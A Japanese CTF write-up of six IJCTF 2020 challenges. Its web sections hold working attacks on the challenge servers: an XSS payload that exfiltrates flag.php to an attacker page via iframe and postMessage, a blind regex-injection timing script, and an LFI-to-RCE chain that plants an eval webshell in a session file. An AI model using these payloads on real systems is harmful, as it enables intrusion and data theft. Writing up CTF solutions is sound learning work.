






4 月 25 日から 4 月 27 日にかけて開催された [IJCTF 2020](https://www.ijctf.ml/) に、チーム zer0pts として参加しました。最終的にチームで 12672 点を獲得し、順位は 10 点以上得点した 144 チーム中 3 位でした。うち、私は 6 問を解いて 3481 点を入れました。

他のメンバーの write-up はこちら。

- [IJCTF 2020 Writeups - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2020/04/27/125659)

以下、私が解いた問題の write-up です。

## [Web 424] Broken_chrome (33 solves)
> read flag.php
> 
> http://(省略)/?view-source
> 
> Note: server is running on 80 port in local.
> 
> flag format: ijctf{}
> 
> Author: sqrtrev

与えられた URL にアクセスすると、以下のような PHP コードが表示されました。

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    exit();
}

header("Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'");
$dom = $_GET['inject'];
if(preg_match("/meta|on|src|<script>|<\/script>/im",$dom))
        exit("No Hack");
?>
<html>
<?=$dom ?>
<script>
window.TASKS = window.TASKS || {
        proper: "Destination",
        dest: "https://vuln.live"
}
<?php
if(isset($_GET['ok']))
    echo "location.href = window.TASKS.dest;";
?>
</script>
<a href="check.php">Bug Report</a>
</html>
```

`inject` という GET パラメータに `meta` `on` `src` `<script>` `</script>` のいずれも含まれていなければ、`<script>` の直前にそのまま出力されるようです。XSS でしょう。

`check.php` から URL を報告すれば admin が巡回に来てくれるようですが、どうやらこの問題サーバのオリジン以外でも巡回に来てくれるようです。

`<script >/* コード */</script >` で普通に JavaScript コードが実行でき、また `fetch` や XHR で `flag.php` を取得できます。が、`Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'` という CSP のために `(new Image).src = '…' + resp` のようなコードで内容を外部に送信しようとしても防がれてしまいます。

一見厳しそうですが、このページで `X-Frame-Options` が発出されておらず `check.php` がこの問題サーバのオリジン以外でも巡回に来てくれるということに注目します。

`iframe` でこのページを開き、XSS を使って `fetch` で `flag.php` を取得した後 `postMessage` で親ウィンドウにフラグを投げるようなページを作るのはどうでしょうか。これなら CSP には引っかからないはずです。

以下のような HTML を適当なページに公開し、その URL を `check.php` から投げると、

```html
<iframe src="http://localhost/?inject=%3Cscript%20%3Efetch(%27flag.php%27).then(resp=%3Eresp.text()).then(resp=%3E{window.parent.postMessage(resp,%27*%27)})//"></iframe>
<script>
window.addEventListener('message', function (e) {
  (new Image).src = 'result.php?message=' + e.data;
});
</script>
```

以下のようなアクセスがありました。

```
$ php -S 0.0.0.0:8000
︙
[Sat Apr 25 11:35:42 2020] (省略) [404]: /result.php?message=ijctf{But,,I%27m_using_latest_chrome...} - No such file or directory
```

```
ijctf{But,,I'm_using_latest_chrome...}
```

---

競技終了後に Discord のログを読んだところ、`http://localhost/check.php` に `http://(適当なところ)/?flag=(フラグ)` を投げさせるような解法もあったようです。なるほど。

## [Web 964] nod_nod (9 solves)
> run /flag
> 
> http://(省略)/
> 
> flag format: ijctf{}
> 
> No rockyou or raw bruteforce.
> 
> Bruteforce is only allowed with some technics like "Blind Sql Injection"
> 
> But payload has to be not too long.
> 
> Too long will kill server.
> 
> Tip: I like php. and I saw the admin's passcode ends with "de"
> 
> Author: sqrtrev
> 
> 添付ファイル: web.7z

`web.7z` は問題サーバのソースコードのようです。`server.js` と `router/main.js` の 2 つのファイルが含まれていました。

`server.js` は以下のような内容でした。

```javascript
const express = require('express');
const app = express();
const session = require('express-session');
const FileStore = require('session-file-store')(session);
const bodyParser = require('body-parser');
const fs = require('fs');
const cookieParser = require("cookie-parser");
const rand = require('@supercharge/strings');

app.set('views', __dirname + '/views');
app.set('view engine', 'ejs');
app.engine('html', require('ejs').renderFile);

const server = app.listen(8000, function (){
	console.log("Server Started on port 8080")
});

app.use(session({
	secret: 'REDACTED',
	resave: false,
	saveUninitialized: true,
	store: new FileStore({path: __dirname+'/sessions/'})
}));

const router = require('./router/main')(app, fs, rand);

app.use(express.static('static'));
app.use(cookieParser());
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({extended: false}));
```

セッションは `session-file-store` を使ってサーバ側にファイルとして保存されているようです。クライアント側には `connect.sid=s%3AezS0iphexqtyPuVnaWTgtyo5W46ghxAZ.XepzQjOza%2BVma5rMnTQS5Kdb0zSj62wZaodandCA8WM` というようなセッション ID (`ezS0iphexqtyPuVnaWTgtyo5W46ghxAZ` の部分) が発行されます。

`router/main.js` は以下のような内容でした。

```javascript
module.exports = function(app, fs, rand){
	app.get('/', function(req, res){
		res.end("Under Construction.");
	});

	app.get('/tunnel', function(req, res){
		var session = req.session;

		if(typeof session.isAdmin == "boolean" && session.isAdmin){
			var param = req.query;
			if(typeof param.dir == 'undefined') param.dir = '';
			request = require('request');
			request.get('http://localhost/?dir='+param.dir, function callback(err, resp, body){
				var result = body;
				res.end(result);
			});
		}else{
			res.end("Permission Error");
		}
	});

	app.get('/auth', function(req, res){
		var session = req.session;

		var passcode = req.query.passcode;
		var secret = fs.readFileSync('passcode.txt','utf8').trim();
		if (typeof passcode  == "string" && !secret.search(passcode) && secret === passcode){
			var session = req.session;
			session.isAdmin = true;
				
			res.statusCode = 302;
			res.setHeader('Location', './tunnel');
			res.end();
		} else {
			res.end("Plz Enter Correct Passcode");
		}
	});

	app.get('/:dir', function(req, res){
		var session = req.session;
		session.log = req.params.dir;
		res.statusCode = 404;
		res.end('404 Error');
	});

	app.put('/put', function(req, res){
		var session = req.session;
		if(typeof session.isAdmin == "boolean" && session.isAdmin){
			var filename = Buffer.from(rand.random(16)).toString('hex');
			var contents = req.query.contents;
			if(typeof contents == "undefined"){
				res.end('Param Error');
			}else if(contents.match(/ELF/gi)){
				res.end('Forbidden String');
			}else{
				var dir = './uploads/'+session.id;

				!fs.existsSync(dir) && fs.mkdirSync(dir);
				fs.writeFileSync(dir+'/'+filename+'.txt', contents);
				res.end('Okay');
			}
		}else{
			res.end('Permission Error');
		}
	});
}
```

- GET /
- GET /tunnel
- GET /auth
- GET /:dir
- PUT /put

という 5 つのパスがあるようです。ただし、`/put` と `/tunnel` は `typeof session.isAdmin == "boolean" && session.isAdmin` が `true` でないとアクセスすることができません。

### `/auth` のパスコードを取得する

`session.isAdmin` が操作されているのは `/auth` のみですから、まずはこれを詳しく調べていきましょう。

```javascript
	app.get('/auth', function(req, res){
		var session = req.session;

		var passcode = req.query.passcode;
		var secret = fs.readFileSync('passcode.txt','utf8').trim();
		if (typeof passcode  == "string" && !secret.search(passcode) && secret === passcode){
			var session = req.session;
			session.isAdmin = true;
				
			res.statusCode = 302;
			res.setHeader('Location', './tunnel');
			res.end();
		} else {
			res.end("Plz Enter Correct Passcode");
		}
	});
```

`passcode.txt` の内容を当てることができれば `session.isAdmin = true;` してくれるようですが、ソースコードを読む限り Path Traversal のような脆弱性は見当たらず、簡単に `passcode.txt` を読むことはできなさそうです。

パスコードのチェック部分では `!secret.search(passcode) && secret === passcode` と二重にチェックがされています。どちらかひとつではダメなのでしょうか。

[`String.prototype.search`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/search) のドキュメントを読んでみると、この引数は (たとえ `String` だったとしても `RegExp` に変換されて) 正規表現として扱われることがわかりました。

このような状況で思い出されるのは [Blind Regular Expression Injection Attack](https://diary.shift-js.info/blind-regular-expression-injection/) です。

記事中のペイロードを参考にしながら、printable な文字を 1 文字ずつ試してレスポンスにかかった時間を出力してくれるスクリプトを書いてみましょう。

```python
import requests
import string
import time
import urllib.parse

BASE = 'http://(省略)/auth?passcode='

res = "de"
template = '^(?=(.*{}))((.*)*)*salt$'

for c in '.' + string.printable:
  t = time.time()
  requests.get(BASE + urllib.parse.quote(template.format(c + res)))
  if time.time() - t > 0.7:
    print(time.time() - t, c)

print('done')
```

実行してみましょう。

```
$ python get_passcode.py
1.5918800830841064 .
1.6272647380828857 0
1.3367295265197754 s
1.3465545177459717 w
0.9503340721130371 G
1.7335524559020996 .
1.4907863140106201 :
1.7506415843963623 ?
1.4482672214508057 |
done
```

この場合、正規表現の特殊文字を除いて `0` のときにもっとも時間がかかっているので、`de` の前に来る文字は `0` であることがわかります。

これを繰り返すと `Sup3r-P4ss-C0de` がパスコードであることがわかりました。`/auth?passcode=Sup3r-P4ss-C0de` にアクセスすると、`/tunnel` と `/put` が使えるようになりました。

### LFI から RCE に持ち込む
`/tunnel` の挙動を見ていきましょう。

```javascript
	app.get('/tunnel', function(req, res){
		var session = req.session;

		if(typeof session.isAdmin == "boolean" && session.isAdmin){
			var param = req.query;
			if(typeof param.dir == 'undefined') param.dir = '';
			request = require('request');
			request.get('http://localhost/?dir='+param.dir, function callback(err, resp, body){
				var result = body;
				res.end(result);
			});
		}else{
			res.end("Permission Error");
		}
	});
```

`dir` という GET パラメータを与えると、`http://localhost/?dir=(dir)` にアクセスして、そのレスポンスを返してくれるようです。SSRF できそうな気もしますが、ユーザ入力が GET パラメータに展開されているので難しいでしょう。

`/tunnel?dir=hoge` にアクセスすると以下のような HTML が返ってきました。

```html
<h1>Admin Fileviewer(using include)</h1>
```

問題文の `I like php` という文章から推測するに PHP が使われており、おそらく `include $_GET['dir'];` のようなコードが動いているのでしょう。このページのソースコードが得られないか試してみましょう。

```html
<h1>Admin Fileviewer(using include)</h1>
PGgxPkFkbWluIEZpbGV2aWV3ZXIodXNpbmcgaW5jbHVkZSk8L2gxPgo8P3BocAppbmNsdWRlICRfR0VUWydkaXInXTsKPz4K
```

Base64 デコードします。

```php
<h1>Admin Fileviewer(using include)</h1>
<?php
include $_GET['dir'];
?>
```

当たりのようです。この LFI を使えば、このサーバのどこかに `<?php phpinfo(); ?>` という内容のファイルを書き込むことさえできれば RCE に持ち込むことができるはずですが、そんな方法はあるのでしょうか。

`server.js` がセッションをサーバに保存するような実装になっていることを思い出しましょう。セッションデータとして任意の文字列を仕込むことができるような機能も、ちゃんと搭載されています。

```javascript
	app.get('/:dir', function(req, res){
		var session = req.session;
		session.log = req.params.dir;
		res.statusCode = 404;
		res.end('404 Error');
	});
```

これを使えば `/<%3fphp%20phpinfo();%20%3f>` にアクセスすることでセッションデータが保存されているファイルに `<?php phpinfo(); ?>` が書き込まれます。

あとはセッションデータが保存されているファイルのパスを推測するだけです。ローカル環境で、このアプリと同じような設定で `session-file-store` を使ったコードを書いてみると `(__dirname)/sessions/(セッション ID).json` に JSON 形式で保存されていることがわかります。

`/tunnel?dir=/etc/apache2/sites-enabled/000-default.conf` で Apache の設定を見てみると、`__dirname` を推測することができます。

```
<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/php

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

Apache の DocumentRoot が `/var/www/php` ですから、`/var/www/(サービス名)` のようなディレクトリに置かれるはずです。いろいろ試していると、`/var/www/nod_nod` で当たりでした。

```python
import requests
import urllib.parse

BASE = 'http://(省略)/'
PAYLOAD = 'phpinfo();'

sess = requests.Session()
sess.get(BASE + 'auth?passcode=Sup3r-P4ss-C0de')
sess.get(BASE + '<%3fphp%20eval($_GET[0]);%20%3f>')

sessid = urllib.parse.unquote(sess.cookies['connect.sid'])
sessid = sessid[2:].split('.')[0]

print(BASE + f'tunnel?dir=/var/www/nod_nod/sessions/{sessid}.json%260={PAYLOAD}')
req = sess.get(BASE + f'tunnel?dir=/var/www/nod_nod/sessions/{sessid}.json%260={PAYLOAD}')
print(req.text)
```

これで `phpinfo();` を実行させることができました。

### disable_functions バイパス?
さて、あとは問題文に従って `/flag` を実行させれば終わりのはずですが、`passthru('/flag');` のようなコードを実行させても何も表示されません。

`phpinfo()` の `disable_functions` を見てみると、以下の関数が無効にされていることがわかりました。

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,shell_exec,system,passthru,popen,stream_select,putenv,mail
```

なるほど、`passthru` や `system` などの OS コマンドを実行できる関数に加えて、`putenv` + `mail` (共有ライブラリをアップロード → `putenv` で `LD_PRELOAD=./a.so` → `mail` のコンボ) のような有名な `disable_functions` バイパスも防がれています。

が、よく見ると `exec` は無効化されていません。実行するコードを `var_dump(exec("/flag"));` に変えるとフラグが得られました。

```
ijctf{Cool,,The_best_1s_0nly_use_nodejs_or_PhP}
```

## [Misc 10] Welcome (57 solves)
> Author dont wanna give flag easily even its a welcome challenge, You can DM @welcome bot to get the flag but problem is he used different language(lowercase) to get the flag
> 
> Author: warlock_rootx
> 
> Hint 1: use !help  
> Hint 2: u know how to get the flag, use google transulater  
> Hint 3: dont sent emoji,its a diff language but input is english characters(a-z) only  
> Hint 4: ex. !flag [different language text]

Discord サーバに `welcome` という bot が常駐しているのでなんとかしてフラグを手に入れればよいようです。とりあえずヒントに従って `!help` を送ってみましょう。



`!flag "string"` と `!author` というコマンドがあるようです。`!flag "string"` を送ってみましょう。



ダメそうです。`string` になにか入れればよいようですが。与えられたヒントによれば「Google 翻訳を使った」「a-zのみで」「違う言語」の文字列がここに入るようです。

この bot の[アイコン](https://cdn.discordapp.com/avatars/698879814723043388/31ac19366b5762404abdfaf2b552c323.png?size=256)はタミル語のようなので、[英語の `flag` をタミル語に翻訳](https://translate.google.com/#view=home&op=translate&sl=en&tl=ta&text=flag)して、この単語をラテン文字化したものを投げてみましょう。


Base64 エンコードされたフラグが得られました。

```
IJCTF{IT$_Just_@_Simple_Welcome_B0T}
```

## [Misc 797] Vault (20 solves)
> We locked our secret box, You can directly ping the bot (@Vault #8895 ) using "start" to get the secret but we don't know the door code we used random() also we used sleep(10).
> 
> shift register...
> 
> Author : Harsh and warlock_rootx
> 
> Hint:
> ```
> if pin in user_input():
> #Good Stuff...
> ```

Discord サーバに `Vault` という bot が常駐しているのでなんとかしてフラグを手に入れればよいようです。`start` と送ればなにかが始まるようなので、とりあえず送ってみましょう。



`0` と `1` からなる PIN コードを送って当てればよいようです。ヒントによれば `if pin in user_input():` と、送ったメッセージの中に部分文字列として PIN コードが入っていればよいようですから、適当に乱数で 2000 文字程度生成して送ってみると、次のステージに進むことができました。



今度は `4` `5` `6` からなる PIN コードを送って当てればよいようです。これを何度か繰り返すと、最後にまた最初と同じような課題が与えられました。



今度は生成される PIN コードが長くなったようで、なかなか当てることができません。が、何度か試していると当てることができてしまいました。



```
IJCTF{0p3n3d_d3_bru1jn_v4ul75}
```

---

フラグ的に de Bruijn sequence を使えばもっと楽に解けたのでしょう。作問者にちょっと申し訳ないので、解き直してみましょう。

[Rosetta Code](https://rosettacode.org/wiki/De_Bruijn_sequences#Python) に載っているコードを利用して、もっと効率的に解けるコードがこちらです。これが生成した文字列を投げるとほぼ確実にフラグを得られます。

```python
# https://rosettacode.org/wiki/De_Bruijn_sequences#Python
def de_bruijn(k, n):
    """
    de Bruijn sequence for alphabet k
    and subsequences of length n.
    """
    # …

def gen(k, n, t):
  res = de_bruijn(k, n)
  return ''.join(t[int(c)] for c in res)

print(gen(2, 10, '01'))
print(gen(3, 6, '456'))
print(gen(5, 4, '56789'))
print(gen(4, 5, '1234'))
print(gen(6, 4, '012589'))
print(gen(2, 11, '01')[:2000])
```

## [Crypto 620] Plain-t.. uh Image (27 solves)
> Hey! I encrypted this photo using simple XOR, but im sure its safe, i used 40 byte key after all, no one would ever be able to bruteforce that ;)
> 
> Challenge file :https://github.com/linuxjustin/IJCTF2020/blob/master/crypto/flag.jpg.enc
> 
> Author: Ignis

`flag.jpg` という JPEG ファイルと 40 バイトの鍵を XOR したようです。

JPEG ファイルはほとんどの場合最初の数バイトが同じような感じになるので、とりあえず適当な JPEG ファイルと `flag.jpg.enc` の最初の 16 バイトを XOR し、24 バイトのパディングを後ろに付けたバイト列を仮の鍵として `flag.jpg.enc` と XOR してみましょう。

```python
import binascii

with open('flag.jpg.enc', 'rb') as f:
  s = f.read()

key = binascii.unhexlify('8927bd8d8dfa8ceb77dbeea088330c39').ljust(40)
res = b''
for i, c in enumerate(s):
  res += bytes([c ^ key[i % 40]])

with open('flag.jpg', 'wb') as f:
  f.write(res)
```

```
$ xxd flag.jpg | head -n 50
0000000: ffd8 ffe0 0010 4a46 4946 0001 0200 0064  ......JFIF.....d
0000010: 1dc7 ba93 41db 53a5 c465 ab50 b00e 9198  ....A.S..e.P....
︙
0000180: ab29 f700 8736 e5ef b05e e2e2 5a99 1daa  .)...6...^..Z...
0000190: 5354 5556 5758 595a 6364 6566 6469 696e  STUVWXYZcdefdiin
00001a0: 6ed3 cfe5 c942 2ab9 0299 47b0 3786 555f  n....B*...G.7.U_
00001b0: 6189 3331 8b46 cc79 9aa2 a3a4 a5a6 a7a8  a.31.F.y........
︙
```

もちろんこのままでは JPEG として読むことはできませんが、鍵を得るヒントになりそうな `STUVWXYZcdefdiin` というバイト列が見えます。

以下のように適当な JPEG を見てみると、DHT に `%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz` のようなバイト列が頻出していることがわかります。

```
$ xxd test.jpg | head -n 50
0000000: ffd8 ffe0 0010 4a46 4946 0001 0101 0060  ......JFIF.....`
︙
00000d0: 0a0b ffc4 00b5 1000 0201 0303 0204 0305  ................
00000e0: 0504 0400 0001 7d01 0203 0004 1105 1221  ......}........!
00000f0: 3141 0613 5161 0722 7114 3281 91a1 0823  1A..Qa."q.2....#
0000100: 42b1 c115 52d1 f024 3362 7282 090a 1617  B...R..$3br.....
0000110: 1819 1a25 2627 2829 2a34 3536 3738 393a  ...%&'()*456789:
0000120: 4344 4546 4748 494a 5354 5556 5758 595a  CDEFGHIJSTUVWXYZ
0000130: 6364 6566 6768 696a 7374 7576 7778 797a  cdefghijstuvwxyz
︙
```

これを利用し、`flag.jpg.enc` の該当部分とこのバイト列との XOR を何度か繰り返すと、今回使われた鍵が `8927bd8d8dfa8ceb77dbeea08b320c3d3d879ab39e1a73e3a13de216902efcf5d33a87843df174c0` であることがわかり、フラグを復号することができました。


```
ijctf{l0ng_k3Y_Doe5nt_me4n_s3cur3}
```